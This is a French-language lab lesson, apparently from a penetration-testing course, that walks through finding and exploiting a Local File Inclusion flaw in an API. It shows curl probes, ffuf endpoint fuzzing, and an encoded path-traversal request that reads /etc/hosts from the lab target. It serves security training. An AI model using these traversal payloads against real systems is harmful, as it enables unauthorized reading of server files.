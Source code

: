 Inclusion de fichiers locaux (LFI)
==================================

* * * * *

L'inclusion de fichiers locaux (LFI) est une attaque qui affecte aussi bien les applications Web que les API. Il permet à un attaquant de lire des fichiers internes et parfois d'exécuter du code sur le serveur via une série de moyens, l'un étant `Apache Log Poisoning`. Notre module [d'inclusion de fichiers](https://academy.hackthebox.com/module/details/23) couvre LFI en détail.

Évaluons ensemble une API vulnérable à l'inclusion de fichiers locaux.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'API cible et suivez-la.

Supposons que nous évaluons une telle API résidant dans `http://<TARGET IP>:3000/api`.

Interagissons d'abord avec lui.

```
dsgsec@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}

```

Nous ne voyons rien d'utile à part l'indication que l'API est opérationnelle. Effectuons le fuzzing des points de terminaison de l'API à l'aide *de ffuf* et de la liste [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) , comme suit.

```
dsgsec@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors::
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error::
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

Il semble que `/api/download`ce soit un point de terminaison d'API valide. Interagissons avec lui.

```
dsgsec@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}

```

Nous devons spécifier un fichier, mais nous n'avons aucune connaissance des fichiers stockés ou de leur schéma de nommage. Nous pouvons cependant essayer de monter une attaque Local File Inclusion (LFI).

```
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

L'API est en effet vulnérable à l'inclusion de fichiers locaux !
